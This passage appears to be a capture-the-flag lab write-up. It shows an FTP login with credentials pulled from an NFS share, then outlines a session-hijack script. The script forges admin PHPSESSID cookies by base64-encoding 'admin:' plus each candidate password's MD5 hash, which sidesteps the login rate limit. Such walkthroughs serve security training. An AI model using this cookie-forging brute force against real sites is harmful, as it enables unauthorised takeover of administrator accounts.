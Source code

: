 
## PORT 21 — FTP

Login with the credentials from the NFS share:

```bash
ftp <IP>
# login using pulled creds
get <file>
```

One of the files contained possible admin passwords — so now we have two routes:

1. Brute-force the web login (painful due to rate limits), or
2. Generate PHPSESSID values for admin by hashing candidate passwords and trying them (faster, because no rate limit).

Screenshot:
![ftp](screenshots/hijack_ftp.png)

---

## SESSION HIJACK (automated)

`session.py` logic: 
for each password candidate:

* `md5 = md5(password)`
* `session_plain = "admin:" + md5`
* `b64 = base64.b64encode(session_plain)`
* `session_id = urlencode(b64)`
* Set cookie `PHPSESSID = session_id`
* GET `administration.php` → if page not denying access, password found
